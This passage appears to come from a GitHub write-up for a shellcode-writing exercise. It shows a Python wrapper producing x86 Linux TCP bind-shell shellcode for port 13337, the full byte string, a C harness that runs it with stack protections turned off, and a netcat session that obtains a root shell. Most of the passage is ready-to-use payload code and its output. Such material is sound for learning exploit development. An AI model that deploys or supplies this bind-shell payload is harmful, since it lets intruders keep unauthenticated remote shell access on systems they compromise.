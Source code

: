 ### Testing Wrapper with Port 13337
```console
root# python tcpbindwrapper.py
Enter TCP Port Number: 13337
Your TCP Port in Hex is: \x34\x19
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
shellcode = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x34\x19\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
```
#### Add Shellcode to C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53"
"\x6a\x02\x89\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31"
"\xdb\xb3\x02\x31\xd2\x52\x66\x68\x34\x19\x66\x53"
"\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80"
"\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05"
"\x31\xc9\x51\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0"
"\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52"
"\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x89\xd1\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Test the shellcode - Port 13337
```console
# WINDOW 1
# Comiple C Program
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
# Run C Program
root# ./shellcode
Shellcode Length:  114

# WINDOW 2
root# netstat -tnalp | grep shellcode
tcp  0.0.0.0:13337   0.0.0.0:*  LISTEN  9627/shellcode
root# nc 127.0.0.1 13337
id
uid=0(root) gid=0(root) groups=0(root)
```
+ Awesome! The wrapper works as intended, allowing easy port configuration!
